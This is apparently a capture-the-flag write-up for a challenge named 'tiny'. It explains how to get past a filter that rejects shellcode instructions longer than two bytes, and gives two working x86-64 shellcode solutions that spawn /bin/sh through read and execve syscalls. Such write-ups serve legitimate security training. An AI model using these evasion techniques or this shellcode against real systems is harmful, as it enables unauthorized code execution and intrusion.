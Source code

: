 # tiny

tiny reads from stdin and executes what it reads as shellcode.
The problem is that it uses libcapstone to disassemble the shellcode and it checks whether the shellcode contains instructions with more than 2 bytes. If it does, it exits withou executing our shellcode.

## First Solution

This is the first solution I came up with. It's not the best one, but it works. Basically, it is multistage exploit. The first stage is a shellcode that reads the second stage from stdin. The second stage is the actual shellcode that spawns a shell.

### First Stage

```c
xor edi, edi
push rdx
pop rsi
xor edx, edx
push 100
pop dx
syscall
```

- RDI: is set to 0, so the read syscall will read from stdin.
- RSI: it must be set to the address where the shellcode will be written. The trick to have instructions with less than 2 bytes is to use POP/PUSH instead of MOV.
- RDX: is set to 100, so the read syscall will read 100 bytes. The same trick used for RSI is used here.
- RAX: it's not changed because it already contains 0 (the read syscall number).

### Second Stage

```c
mov rdi, rsi
add rdi, 0x22
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: it must be set to the address of the string "/bin/sh". 0x22 is the offset of the string from the address where the shellcode is written.
- RAX: it's set to 0x3b (the execve syscall number).
- RSI: it's set to 0.
- RDX: it's set to 0.

Note: Why 0x22? Because the first stage is 12 byte long. The second one 22. Then 34=0x22. We need to consider the first stage because the RIP at the end of the first stage will point right after the first stage and we are writing at the beginning of the first stage. In fact, we need to put also 12 NOPs at the beginning of the second stage.

## Second Solution

This is the second solution I came up with. It's better than the first one because it's a single stage exploit. The shellcode doesn't contain instructions with more than 2 bytes.

```c
push rdx
pop rax
add al, 0x10
push rax
pop rdi
xor eax, eax
mov al, 0x3b
xor edx, edx
xor esi, esi
syscall
.string "/bin/sh"
```

- RAX: it's set to RDX+0x10. RDX contains the address of the shellcode, so RAX will contain the address of the string "/bin/sh" and 0x10 is the offset of the string from the address of the shellcode in fact the shellcode is 16 byte long.
- RDI: it's set to RAX. We are using RAX here to temporarily store the address of the string "/bin/sh" because for some reason the ``add al, 0x10`` it's just 2 bytes long.
- RAX: it's set to 0x3b (the execve syscall number).
- RSI: it's set to 0.
- RDX: it's set to 0.

The complete exploit is in [script.py](script.py).
